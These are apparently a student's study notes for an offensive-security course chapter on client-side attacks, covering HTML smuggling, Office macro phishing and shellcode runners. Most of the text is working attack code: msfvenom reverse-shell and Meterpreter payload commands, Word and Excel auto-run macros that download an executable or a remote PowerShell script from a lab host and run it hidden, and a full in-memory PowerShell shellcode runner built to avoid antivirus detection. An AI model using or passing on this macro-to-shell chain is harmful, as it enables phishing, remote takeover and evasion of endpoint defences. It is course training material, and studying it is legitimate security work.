



# HTML smuggling

remember to use staged payload instead of non staged ones in meterpreter.

finally used 

```bash
┌──(kali㉿kali)-[~/codeplay/pen300/book/chapter3]
└─$ sudo msfvenom -p windows/shell_reverse_tcp LHOST=10.10.6.12 LPORT=4444 -f exe -o /var/www/html/msfstaged.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: /var/www/html/msfstaged.exe
                                                                                                                                                                                                                                 
┌──(kali㉿kali)-[~/codeplay/pen300/book/chapter3]
└─$ base64 /var/www/html/msfstaged.exe

```
check the code : using new_html.html

### 3.1.3.1 Exercises
1. Repeat the HTML smuggling to trigger a download of a Meterpreter payload in a file format 
of your choosing.

2. Modify the smuggling code to also use the window.navigator.msSaveBlob62,63 method to 
make the technique work with Microsoft Edge as well.

The explot works in msedge also without any change.

# phishing with microsoft office

installing microsoft office 2016 from : `https://office-2016.fileplanet.com/download` - not verified.

### 3.2.1.1 Exercise
1. Install Microsoft Office on your Windows 10 client VM
done

## introduction to vba

creating a macro - view > macros

Leveraging existing methods like Document_Open() and AutoOpen()


```vb
Sub ss()
'
' ss Macro
'
'

Dim myLong As Long

myLong = 1

If myLong < 5 Then
    MsgBox ("True")
Else
    MsgBox ("False")
End If

End Sub

```

macro for calling cmd.exe

```vb
Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub

Sub MyMacro()
    MsgBox ("This is a macro test")
    Dim str As String
    str = "cmd.exe"
    CreateObject("Wscript.Shell").Run str, 0
End Sub

```

Remember to save docx macro compatible.

## 3.2.2.1 Exercises
1. Experiment with VBA programming basics by creating a small macro that prints the current 
username and computer name 5 times using the Environ$ function.

```vb
Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub

Sub MyMacro()
    Dim iCnt As Integer
    Dim sEnvVariable As String
    
    MsgBox Environ("USERNAME") + Environ("USERNAME")
     
End Sub

```

2. Create an Excel macro that runs when opening an Excel spreadsheet and executes cmd.exe 
using Workbook_Open

```vb
Sub Workbook_Open()
    myMacro

End Sub


Sub myMacro()
    MsgBox ("yello")
End Sub

```
# Let Powershell help us

Powershell is rendered on th efly using .NET framework

using powershell to do a download and execute script

`PS C:\Users\aonno> (New-Object System.Net.WebClient).DownloadFile('http://192.168.119.120/msfstaged.exe', `

using a word macro to execute powershell script

```vb
Sub Document_Open()
 MyMacro
End Sub
Sub AutoOpen()
 MyMacro
End Sub
Sub MyMacro()
 Dim str As String
 str = "powershell (New-Object 
System.Net.WebClient).DownloadFile('http://192.168.119.120/msfstaged.exe', 
'msfstaged.exe')"
 Shell str, vbHide
 Dim exePath As String
 exePath = ActiveDocument.Path + "\msfstaged.exe"
 Wait (2)
 Shell exePath, vbHide
End Sub
Sub Wait(n As Long)
 Dim t As Date
 t = Now
 Do
 DoEvents
 Loop Until Now >= DateAdd("s", n, t)
End Sub
Listing 3
```

### .2.3.1 Exercises
1. Replicate the Word macro to obtain a reverse shell. Implement it in Excel.

2. Experiment with another PowerShell download cradle like Invoke-WebRequest.

```bash
PS C:\Users\aonno> Invoke-WebRequest "https://raw.githubusercontent.com/fanbyprinciple/pen300/master/README.md"


StatusCode        : 200
StatusDescription : OK
Content           : # pen300
                    
                    Repository for doing pen300 exercises.
                    Need to start with book.
                    
                    Will add multiple folders for various blogs/ resources.
                    
RawContent        : HTTP/1.1 200 OK
                    Connection: keep-alive
                    Content-Security-Policy: default-src 'none'; style-src 'unsafe-inline'; sandbox
                    Strict-Transport-Security: max-age=31536000
                    X-Content-Type-Options: nosniff
                    ...
Forms             : {}
Headers           : {[Connection, keep-alive], [Content-Security-Policy, default-src 'none'; style-src 'unsafe-inline'; sandbox], 
                    [Strict-Transport-Security, max-age=31536000], [X-Content-Type-Options, nosniff]...}
Images            : {}
InputFields       : {}
Links             : {}
ParsedHtml        : mshtml.HTMLDocumentClass
RawContentLength  : 131
```

# Keeping up appearances

how to base64encode content using macro

### 3.3.2.1 Exercises
1. Create a convincing phishing pretext Word document for your organization or school that 
replaces text after enabling macros.
2. Insert a procedure called MyMacro that downloads and executes a Meterpreter payload after 
the text has been switched

# Executing shellcode in word memory

We shall try to execute payloads directly from memory

We need to convert native data types into vba data types
for example in

```
BOOL GetUserNameA(
 LPSTR lpBuffer,
 LPDWORD pcbBuffer
)
```
LPSTR is a pointer to a string so VBA the string object holds the pointer to a string rather than the string itself.

Second argument is a pointer of a reference to a DWORD. so we use byref to get a reference. 

Bool can be long

so we design the macro as

```vb
Function MyMacro()
 Dim res As Long
 Dim MyBuff As String * 256
 Dim MySize As Long
 MySize = 256
 
 res = GetUserName(MyBuff, MySize)
 strlen = InStr(1, MyBiff, vbNullChar) - 1
 MsgBox Left$(MyBuff, strlen)
End Function
```

but getting error executing




https://www.aeternusconsulting.com/how-to-use-windows-api-in-vba/#:~:text=Function%20GetSystemDirectory%20Lib%20%E2%80%9Ckernel32%E2%80%9D%3A%20This%20tells%20VBA%20that,library%2C%20the%20Windows%20API%E2%80%99s%20actual%20name%20is%20GetSystemDirectoryA.


A Windows API function must be declared correctly at the top of a VBA code module. The declaration statement will tell the VBA virtual machine 3 important pieces of information.
1. The Window API function name you would like to use.
2. The Library location of the the Windows API function.
3. The Window API function’s arguments.

Here is an example:

Declare PtrSafe Function GetSystemDirectory Lib "kernel32" _
Alias "GetSystemDirectoryA" (ByVal lpBuffer As String, ByVal nSize As Long) As Long

How to Deal with 32-bit Excel and 64-bit Excel (2021 edit)
Tip 1: Use PtrSafe for 64-bit Excel
To ensure a Windows API function call will work in 64-bit Excel, we need the keyword “PtrSafe” somewhere in the Windows API declaration. Without this, you will get an error.

Tip 2: Use LongPtr for 64-bit Excel
VBA now includes the variable type alias LongPtr. The actual data type that LongPtr resolves to depends on the version of Office that it is running in; LongPtr resolves to Long in 32-bit versions of Office. For Windows API code to work in 64-bit versions of Office, replace all Long and LongLong datatypes to LongPtr.

Tip 3: Use conditional compiler directives
If you need your WIndows API function call to be compatible in both 32-bit and 64-bit Excel, we need to declare two versions of the function declaration by using conditional compiler directives.

The following is an example to show all 3 tips in action. The codes in bold are the recommended changes for 64-bit Excel. You can read the long and complicated reference from Microsoft: 64-bit Visual Basic for Applications overview (if you want).

#If VBA7 Then
    'for 64-bit Excel
    Declare PtrSafe Function GetSystemDirectory Lib "kernel32" _
    Alias "GetSystemDirectoryA" (ByVal lpBuffer As String, ByVal nSize As LongPtr) As LongPtr
#Else
    'for 32-bit Excel
    Declare Function GetSystemDirectory Lib "kernel32" _
    Alias "GetSystemDirectoryA" (ByVal lpBuffer As String, ByVal nSize As Long) As Long
#End If

This works

```vb
Declare PtrSafe Function GetSystemDirectory Lib "kernel32" _
Alias "GetSystemDirectoryA" (ByVal lpBuffer As String, ByVal nSize As Long) As Long


'***************************************************
'Purpose: invoke the Windows API GetSystemDirectoryA
'***************************************************
Sub SystemsDir()
    Dim strSysPath As String * 255 'declare a fixed length string of 255 characters
    MsgBox Left(strSysPath, GetSystemDirectory(strSysPath, 255))
End Sub

```

Lets try to use it with GetUserNameA

```vb
Declare PtrSafe Function GetUserName Lib "advapi32" _
Alias "GetUserNameA" (ByVal lpBuffer As String, ByVal pcbBuffer As Long) As Long

Function MyMacro()
 Dim res As Long
 Dim MyBuff As String * 256
 Dim MySize As Long
 Dim strlen As Long
 MySize = 256
 
 res = GetUserName(MyBuff, MySize)
 strlen = InStr(1, MyBuff, vbNullChar) - 1
 MsgBox Left(MyBuff, strlen)
End Function

Sub new_s()
    MyMacro
End Sub

```

This actually reopens the document. NOt working.


### 3.4.1.1 Exercises
1. Replicate the call to GetUserName and return the answer.
2. Import the Win32 MessageBoxA110 API and call it using VBA
3. 
```
return type res -> long
int MessageBoxA(
  [in, optional] HWND   hWnd,
  [in, optional] LPCSTR lpText, -> string
  [in, optional] LPCSTR lpCaption, -> string
  [in]           UINT   uType -> long
);
```

So trying in VBA
```vb
Declare PtrSafe Function MessageBoxA Lib "user32" _
(ByVal hwnd As Long, ByVal LpText As String, ByVal lpCaption As String, ByVal uType As Long) As Long

Sub new_message()
    Dim h As Long
    Dim L As String
    Dim C As String
    Dim u As Long
    Dim res As Long
    
    h = 0
    L = "s"
    C = "s"
    u = 0
    res = MessageBoxA(h, L, C, u)
End Sub


```

This works!



# VBA Shellcode Runner

We need to implement 3 functions - VirtualAlloc, RtlMoveMemory, CreateThread

```
LPVOID VirtualAlloc(
 LPVOID lpAddress,
 SIZE_T dwSize,
 DWORD flAllocationType,
 DWORD flProtect
);
```

To declare them

```vb
Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As 
LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As 
Long) As LongPtr
```

Now for our vbaapplication payload
Difference between staged and non staged meterpreter payload

```vb
Payload Staged  Stageless
Reverse TCP	windows/meterpreter/reverse_tcp	windows/meterpreter_reverse_tcp
Reverse HTTPS	windows/meterpreter/reverse_https	windows/meterpreter_reverse_https
Bind TCP	windows/meterpreter/bind_tcp	windows/meterpreter_bind_tcp
Reverse TCP IPv6	windows/meterpreter/reverse_ipv6_tcp	windows/meterpreter_reverse_ipv6_tcp
```

amd note the use of exitfuntion below -


```bash
┌──(root㉿kali)-[/home/kali]
└─# msfvenom -p windows/meterpreter_reverse_https LHOST=10.10.6.12 LPORT=443 EXITFUNC=thread -f vbapplication > vba_payload.txt
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 176220 bytes
Final size of vbapplication file: 570462 bytes

```

Arguments fo virtualAlloc - we should supply the value "0" as lpadress, dwSize - to be set dynamically. 

we will use 0x3000 whuch equates to MEM_COMMIT and MEM_RESERVE 
hex notation in vba is &H3000

```vb
Dim buf As Variant
Dim addr As LongPtr
buf = Array(232, 130, 0, 0, 0, 96, 137...
addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)
```

for RTL movememory

```
VOID RtlMoveMemory(
 VOID UNALIGNED *Destination,
 VOID UNALIGNED *Source,
 SIZE_T Length
);
```

```vb
Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As 
LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr

Dim counter As Long
Dim data As Long
For counter = LBound(buf) To UBound(buf)
 data = buf(counter)
 res = RtlMoveMemory(addr + counter, data, 1)
Next counter
```

next is createThread

```
HANDLE CreateThread(
 LPSECURITY_ATTRIBUTES lpThreadAttributes,
 SIZE_T dwStackSize,
 LPTHREAD_START_ROUTINE lpStartAddress,
 LPVOID lpParameter,
 DWORD dwCreationFlags,
 LPDWORD lpThreadId
);
```

Vba implementation

```vb
Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes 
As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As 
LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr
```

```vb
Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes 
As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As 
LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr
```
full implementation giiven in `shellcode_runner.macro`

getting error of too many line continuations

### 3.4.2.1 Exercise
1. Recreate the shellcode runner in this section.

Too many line continuations errpr

solutions - can we have simpler reverse shell code
- can we somehow try and use limited line continuations?

# Powershell shellcode runner

problem with macro - it is saved onto disk, executed directly into memory.

we will have macro download a powershell script form web and run it in memory.

Calling win32 API from powershell

wiki for .NET developers

http://www.pinvoke.net/

```
int MessageBox(
 HWND hWnd,
 LPCTSTR lpText,
 LPCTSTR lpCaption,
 UINT uType
);
```

we will try to implement this in C# and the call MessageBox


```vb
[DllImport("user32.dll", SetLastError = true, CharSet= CharSet.Auto)]
public static extern int MessageBox(IntPtr hWnd, String text, String caption, uint type);

```

Using p/invoke APIs

```vb
using System;
using System.Runtime.InteropServices;
public class User32 {
 [DllImport("user32.dll", CharSet=CharSet.Auto)]
 public static extern int MessageBox(IntPtr hWnd, String text, 
 String caption, int options)
 ```

complete powershell code 

```C#
$User32 = @"
using System;
using System.Runtime.InteropServices;
public class User32 {
 [DllImport("user32.dll", CharSet=CharSet.Auto)]
 public static extern int MessageBox(IntPtr hWnd, String text, 
 String caption, int options);
}
"@
Add-Type $User32
[User32]::MessageBox(0, "This is an alert", "MyBox", 0)
```

### 3.5.1.1 Exercises
1. Import and call MessageBox using Add-Type as shown in this section.


2. Apply the same techniques to call the Win32 GetUserName API.

after doing google search for pinvoke getusername we get

```vb
[DllImport("advapi32.dll", SetLastError = true)]
static extern bool GetUserName(System.Text.StringBuilder sb, ref Int32 length);
```

```ps1
$bufCharCount=0
$infobuf="initial"
$advapi32 = @"
using System;
using System.Text;
using System.Runtime.InteropServices;
public class Class1
    {
        [DllImport("Advapi32.dll")]
        public static extern bool GetUserName(StringBuilder lpBuffer, ref int nSize);    
    }
"@
Add-Type $advapi32
$res=[Class1]::GetUserName($infobuf, [ref]$bufCharCount)


#Write-Host "Helloword"
Write-Host [Class1]::GetUserName($infobuf, [ref]$bufCharCount)
Write-Host $infobuf
Write-Host $bufCharCount
Write-Host $res
Write-Host "In reverse order?"

```
But not working


# Porting Shellcode Runner to PowerShell

Following the same function VirtualAlloc and Creathread for executing shellcode.

However this time, instead of RTLMoveMemory we will be using Copy function of the powerhsell.

```ps1
$Kernel32 = @"
using System;
using System.Runtime.InteropServices;
public class Kernel32 {
 [DllImport("kernel32")]
 public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint 
flAllocationType, uint flProtect);
 [DllImport("kernel32", CharSet=CharSet.Ansi)]
 public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint 
dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr 
lpThreadId);
}
"@
Add-Type $Kernel32
```

Generating shellcode using msfvenom, we will ue a calc function to do it.

```bash
msfvenom --platform windows --arch x64  -p windows/x64/exec CMD=calc.exe EXITFUNC=thread -b '\x00\x0A\x0D' -f ps1
     

```

The combined code is put in `calc.ps1`

```ps1
$Kernel32 = @"
using System;
using System.Runtime.InteropServices;
public class Kernel32 {
 [DllImport("kernel32")]
 public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint 
flAllocationType, uint flProtect);
 [DllImport("kernel32", CharSet=CharSet.Ansi)]
 public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint 
dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr 
lpThreadId);
[DllImport("kernel32.dll", SetLastError=true)]
 public static extern UInt32 WaitForSingleObject(IntPtr hHandle, 
 UInt32 dwMilliseconds);
}
"@
Add-Type $Kernel32

[Byte[]] $buf = 0x48,0x31,0xc9,0x48,0x81,0xe9,0xdd,0xff,0xff,0xff,0x48,0x8d,0x5,0xef,0xff,0xff,0xff,0x48,0xbb,0x34,0x2,0x18,0x30,0x59,0xaa,0x8e,0xcf,0x48,0x31,0x58,0x27,0x48,0x2d,0xf8,0xff,0xff,0xff,0xe2,0xf4,0xc8,0x4a,0x9b,0xd4,0xa9,0x42,0x4e,0xcf,0x34,0x2,0x59,0x61,0x18,0xfa,0xdc,0x9e,0x62,0x4a,0x29,0xe2,0x3c,0xe2,0x5,0x9d,0x54,0x4a,0x93,0x62,0x41,0xe2,0x5,0x9d,0x14,0x4a,0x93,0x42,0x9,0xe2,0x81,0x78,0x7e,0x48,0x55,0x1,0x90,0xe2,0xbf,0xf,0x98,0x3e,0x79,0x4c,0x5b,0x86,0xae,0x8e,0xf5,0xcb,0x15,0x71,0x58,0x6b,0x6c,0x22,0x66,0x43,0x49,0x78,0xd2,0xf8,0xae,0x44,0x76,0x3e,0x50,0x31,0x89,0x21,0xe,0x47,0x34,0x2,0x18,0x78,0xdc,0x6a,0xfa,0xa8,0x7c,0x3,0xc8,0x60,0xd2,0xe2,0x96,0x8b,0xbf,0x42,0x38,0x79,0x58,0x7a,0x6d,0x99,0x7c,0xfd,0xd1,0x71,0xd2,0x9e,0x6,0x87,0x35,0xd4,0x55,0x1,0x90,0xe2,0xbf,0xf,0x98,0x43,0xd9,0xf9,0x54,0xeb,0x8f,0xe,0xc,0xe2,0x6d,0xc1,0x15,0xa9,0xc2,0xeb,0x3c,0x47,0x21,0xe1,0x2c,0x72,0xd6,0x8b,0xbf,0x42,0x3c,0x79,0x58,0x7a,0xe8,0x8e,0xbf,0xe,0x50,0x74,0xd2,0xea,0x92,0x86,0x35,0xd2,0x59,0xbb,0x5d,0x22,0xc6,0xce,0xe4,0x43,0x40,0x71,0x1,0xf4,0xd7,0x95,0x75,0x5a,0x59,0x69,0x18,0xf0,0xc6,0x4c,0xd8,0x22,0x59,0x62,0xa6,0x4a,0xd6,0x8e,0x6d,0x58,0x50,0xbb,0x4b,0x43,0xd9,0x30,0xcb,0xfd,0x45,0x78,0xe3,0xab,0x8e,0xcf,0x34,0x2,0x18,0x30,0x59,0xe2,0x3,0x42,0x35,0x3,0x18,0x30,0x18,0x10,0xbf,0x44,0x5b,0x85,0xe7,0xe5,0xe2,0x4a,0x93,0xe5,0x3e,0x43,0xa2,0x96,0xcc,0x17,0x13,0x30,0xe1,0x4a,0x9b,0xf4,0x71,0x96,0x88,0xb3,0x3e,0x82,0xe3,0xd0,0x2c,0xaf,0x35,0x88,0x27,0x70,0x77,0x5a,0x59,0xf3,0xcf,0x46,0xee,0xfd,0xcd,0x53,0x38,0xc6,0xed,0xe1,0x51,0x7a,0x7d,0x30,0x59,0xaa,0x8e,0xcf
$size = $buf.Length
[IntPtr]$addr = [Kernel32]::VirtualAlloc(0,$size,0x3000,0x40);
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $size)
$thandle=[Kernel32]::CreateThread(0,0,$addr,0,0,0);
[Kernel32]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")

```

that pops a calc

Now calling the download and execute from a word macro

```vb
Sub MyMacro()
 Dim str As String
 str = "powershell (New-Object System.Net.WebClient).DownloadString('http://10.10.6.12/calc.ps1') | IEX"
 'str = "calc.exe"
 Shell str, vbHide
End Sub
Sub Document_Open()
 MyMacro
End Sub
Sub AutoOpen()
 MyMacro
End Sub
```

Since right now our shell uses powershell as the parent process, it will terminate as soon as the powershell terminates so instead of that we should waitforsingleobjec api

```C#
[DllImport("kernel32.dll", SetLastError=true)]
 public static extern UInt32 WaitForSingleObject(IntPtr hHandle, 
 UInt32 dwMilliseconds);

 ....

 [Kernel32]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")
```

### 3.5.2.1 Exercises
1. Replicate the PowerShell shellcode runner used in the section.
2. Is it possible to use a different file extension like .txt for the run.ps1 file?

yes its is possible to 


# Keep that powershell in memory

the Add-Type keyword lets us use the .NET framework to compile C# 
code containing Win32 API declarations and then call them.

we will use procmonitor with a simple powershell command

```ps1
$User32 = @"
using System;
using System.Runtime.InteropServices;
public class User32 {
 [DllImport("user32.dll", CharSet=CharSet.Auto)]
 public static extern int MessageBox(IntPtr hWnd, String text, String caption, int 
options);
}
"@
Add-Type $User32
[User32]::MessageBox(0, "This is an alert", "MyBox", 0)
```

Not able to find `rtylilrr.dll` in any of the code

in order to list the loaded assemblies we can use 

```ps1

PS C:\Users\misthios> $User32 = @"
using System;
using System.Runtime.InteropServices;
public class User32 {
 [DllImport("user32.dll", CharSet=CharSet.Auto)]
 public static extern int MessageBox(IntPtr hWnd, String text, String caption, int 
options);
}
"@
Add-Type $User32
[User32]::MessageBox(0, "This is an alert", "MyBox", 0)
1

PS C:\Users\misthios> [appdomain]::currentdomain.getassemblies() | Sort-Object -Property fullname | Format-Table fullname

FullName                                                                                                        
--------                                                                                                        
Accessibility, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a                                
Anonymously Hosted DynamicMethods Assembly, Version=0.0.0.0, Culture=neutral, PublicKeyToken=null               
MetadataViewProxies_7d5f5fef-59b3-410c-9685-a330c87facbb, Version=0.0.0.0, Culture=neutral, PublicKeyToken=null 
Microsoft.GeneratedCode, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null                                  
Microsoft.Management.Infrastructure, Version=1.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35          
Microsoft.PowerShell.Commands.Utility, Version=3.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35        
Microsoft.PowerShell.Editor, Version=3.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35                  
Microsoft.PowerShell.GPowerShell, Version=3.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35             
Microsoft.PowerShell.GraphicalHost, Version=3.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35           
Microsoft.PowerShell.ISECommon, Version=3.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35               
Microsoft.PowerShell.Security, Version=3.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35                
mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089                                     
ofjuz5bk, Version=0.0.0.0, Culture=neutral, PublicKeyToken=null                                                 
powershell_ise, Version=3.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35                               
PresentationCore, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35                             
PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35                        
PresentationFramework.Aero2, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35                  
PresentationFramework-SystemCore, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089             
PresentationFramework-SystemData, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089             
PresentationFramework-SystemXml, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089              
SMDiagnostics, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089                                
System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089                                       
System.ComponentModel.Composition, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089            
System.Configuration, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a                         
System.Configuration.Install, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a                 
System.Core, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089                                  
System.Data, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089                                  
System.DirectoryServices, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a                     
System.Drawing, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a                               
System.Management, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a                            
System.Management.Automation, Version=3.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35                 
System.Numerics, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089                              
System.Runtime.InteropServices.WindowsRuntime, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a
System.Runtime.Serialization, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089                 
System.ServiceModel.Internals, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35                
System.Transactions, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089                          
System.Windows.Forms, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089                         
System.Xaml, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089                                  
System.Xml, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089                                   
UIAutomationProvider, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35                         
UIAutomationTypes, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35                            
Windows.UI, Version=255.255.255.255, Culture=neutral, PublicKeyToken=null, ContentType=WindowsRuntime           
WindowsBase, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35    
```

we can use `file-list` or `format-table *` to see all columns of a powershell cmdlets


I cant find rtylilrr file.

but book mentions

```
Our investigation reveals that PowerShell writes a C# source code file (.cs) to the hard drive, 
which is compiled into an assembly (.dll) and then loaded into the process.
The Add-Type code will likely be flagged by endpoint antivirus, which will halt our attack. We’ll 
need to rebuild our PowerShell shellcode runner to avoid this.
```

### .6.1.1 Exercises
1. Execute the Add-Type MessageBox PowerShell code and capture the source code and 
assembly being written to disk.
2. Does the current PowerShell shellcode runner write files to disk?

not done both

# Leveraging UnsafeNativeMethods

problem with our current shellcode -

```
Add-Type and DllImport keywords (or the Declare keyword in VBA). 
However, Add-Type calls the csc compiler, which writes to disk. We must avoid this if we want to 
operate completely in-memory.
```

To dynamically find the function address we need to leveragge win32 apis -  GetModuleHandle and GetProcAddress.

code to find the existing assmblies

```ps1
$Assemblies = [AppDomain]::CurrentDomain.GetAssemblies()
$Assemblies |
 ForEach-Object {
 $_.GetTypes()|
 ForEach-Object {
 $_ | Get-Member -Static| Where-Object {
 $_.TypeName.Contains('Unsafe')
 }
 } 2> $null
 }
```


